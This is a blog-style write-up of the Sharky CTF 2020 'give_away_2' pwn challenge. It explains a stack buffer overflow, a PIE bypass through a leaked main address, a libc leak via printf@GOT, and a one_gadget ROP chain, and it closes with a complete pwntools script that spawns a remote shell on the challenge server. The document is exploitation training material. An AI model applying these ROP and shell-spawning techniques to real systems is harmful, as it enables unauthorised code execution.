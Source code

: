 ```yaml
---
title: "Sharky CTF 2020: give_away_2 (Pwn)"
layout: post
date: 2020-05-12
tags:
- CTF
- writeup
- Sharky CTF 2020
- Pwn
comments: true
---
```


> Make good use of this gracious give away.
>
> Creator: Hackhim
>
> [give\_away\_2](/files/give_away_2)
>
> [libc-2.27.so](/files/libc-2.27-x64.so)

As with most pwn challenges, let's start off by checking what kind of binary we're given.

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_two$ file give_away_2
give_away_2: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=5c93b7c4ff1a036cb291045d3ab76155d22ce1a6, not stripped
```

Okay, it's just a 64 bit ELF binary. Let's run it to get a better idea of what it does.

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_two$ ./give_away_2
Give away: 0x560f72579864

```

Seems like it just prints a hex value and gets some input from us. Hmm, this is very similar to [give_away_1](../sharky-ctf-give_away_one). Perhaps we should also test if the input is vulnerable to buffer overflow?

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_two$ python -c 'print "A"*1024' | ./give_away_2
Give away: 0x55d1ba2a0864
Segmentation fault (core dumped)
```

Yup I guess this is vulnerable too. Let's open up the binary in IDA and see what the hex value is.

```
lea     rsi, main
lea     rdi, format     ; "Give away: %p\n"
mov     eax, 0
call    printf ; printf("Give away: %p\n", main);
```

Oh that's perculiar, we're given the address of `main` instead. Why would be possibly need that? This rings some bells. Let's try checking what security features this binary has. We can do this with the [checksec](http://www.trapkit.de/tools/checksec.html) utility.

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_two$ checksec give_away_2
[*] '/vagrant/challenges/sharky/give_away_two/give_away_2'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Okay, that explains it. This is a [Position Independent Executable (PIE)](https://codywu2010.wordpress.com/2014/11/29/about-elf-pie-pic-and-else/). In the context of this challenge, it means that the address of `main` would be every run (assuming [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) is turned on). We can verify this by running the binary multiple times.

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_two$ ./give_away_2
Give away: 0x55d3de27b864
asdf
vagrant@ctf:/vagrant/challenges/sharky/give_away_two$ ./give_away_2
Give away: 0x559fd6f12864
asdf
vagrant@ctf:/vagrant/challenges/sharky/give_away_two$ ./give_away_2
Give away: 0x55803ddf9864
asdf
```

Given that the binary leaks the address of `main`, PIE is not much of an issue for us since we can now calculate the (base) address that the binary is loaded at.

```
base address = leaked main address - offset of main within the binary
```

As with give\_away\_1, we still need to get a shell on the system. Since this is a 64 bit ELF, there's a nifty trick that we can use. Instead of calling `system("/bin/sh")`, we can use [one_gadget](https://github.com/david942j/one_gadget) to find a single gadget that can spawn a shell for us.

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_two$ one_gadget libc-2.27.so
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

As seen above, there's a set of constraints we have to fulfil for each one\_gadget. Let's go with the second one (0x4f322) because I think it's more probable than `rcx` being `NULL`. One caveat is that the addresses above are relative to where libc is is going to be loaded. Since we don't have a leak to a libc address (as with give\_away\_one), we have to leak it ourself. An easy way to do this is to use the printf function in main. This also kills two birds with one stone, because `vuln` will conveniently be called a second time which allows us to send the payload to call the one\_gadget.

```
.text:0000000000000872    lea     rsi, main
.text:0000000000000879    lea     rdi, format ; "Give away: %p\n"
.text:0000000000000880    mov     eax, 0
.text:0000000000000885    call    printf
```

As seen above, the offset of `printf` within the binary is 0x885 so we can just add it to the base address that we calculated earlier. We can call printf against it's own entry in the [Global Offset Table (GOT)](https://en.wikipedia.org/wiki/Global_Offset_Table) to leak the libc address of printf.

Okay so let's summarize our plan of attack:

1. Leak the address of main (given to us)
2. Calculate binary base address
3. Calcuate the address of print in main
4. Send first ropchain to call `printf(<address of printf@GOT>)`
5. Calculate libc base address based on leaked printf libc address
6. Send second ropchain to call one\_gadget
7. Profit

Our first ropchain should look like this:

```
<padding of ? bytes><gadget: pop rdi; ret;><address(printf@GOT)><address(printf@main)>
```

Our second ropchain should look like this:

```
<padding of ? bytes><address(one_gadget)>
```

All we need now is the padding. Let's go for a more automated approach this time because why not? I've integrated it into the solve script below.

```python
#! /usr/bin/python2

import os
from pwn import *

HOST = 'sharkyctf.xyz'
PORT = 20335
BINARY = './give_away_2'

elf = context.binary = ELF(BINARY)
libc = ELF('./libc-2.27.so')

# Gadgets

libc.symbols['one_gadget'] = 0x4f322

'''
One Gadget
----------
0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL
'''

# Offsets

elf.symbols['main_printf'] = 0x885

'''
.text:0000000000000872    lea     rsi, main
.text:0000000000000879    lea     rdi, format ; "Give away: %p\n"
.text:0000000000000880    mov     eax, 0
.text:0000000000000885    call    printf
'''

# RIP Padding

p = process(BINARY)
p.sendline(cyclic(64, n=8))
p.wait()

core = p.corefile

p.close()
os.remove(core.file.name)

PAYLOAD_PADDING = cyclic_find(core.read(core.rsp, 8), n=8)

log.success('Found padding length: {}'.format(PAYLOAD_PADDING))

# Start connection

r = remote(HOST, PORT)

# Stage 1: Get main leak

main = int(r.recvline().split()[2][2:], 16)
log.info('Leaked main address: 0x{:x}'.format(main))

# Stage 2: Build Rop Chain (leak printf@libc)

elf.address = main - elf.symbols.main
log.info('Calculated base address: 0x{:x}'.format(elf.address))

rop = ROP(elf)
rop.main_printf(elf.got.printf)

log.success('Built ROP Chain (Leak printf@libc)')
log.success(rop.dump())

# Stage 3: Leak printf@libc

r.sendline(fit({ PAYLOAD_PADDING: rop.chain() }))
log.success('Sent payload')

libc_printf = u64(r.recvn(6) + '\x00\x00')  # Fix address width
log.info('Leaked printf@libc address: 0x{:x}'.format(libc_printf))


# Stage 4: Build ROP Chain (Call one_gadget)

libc.address = libc_printf - libc.symbols['printf']
log.info('Calculated libc base address : 0x{:x}'.format(libc.address))

rop1 = ROP([elf, libc])
rop1.one_gadget()

log.success('Built ROP Chain (Call one_gadget)')
log.success(rop1.dump())

# Stage 5: Pwn

r.sendline(fit({ PAYLOAD_PADDING: rop1.chain() }))

log.success('Sent payload')
log.progress('Spawning a shell...')

r.interactive()
```

Let's see it in action!

<script id="asciicast-329300" src="https://asciinema.org/a/329300.js" async></script>

Flag: `shkCTF{It's_time_to_get_down_to_business}`
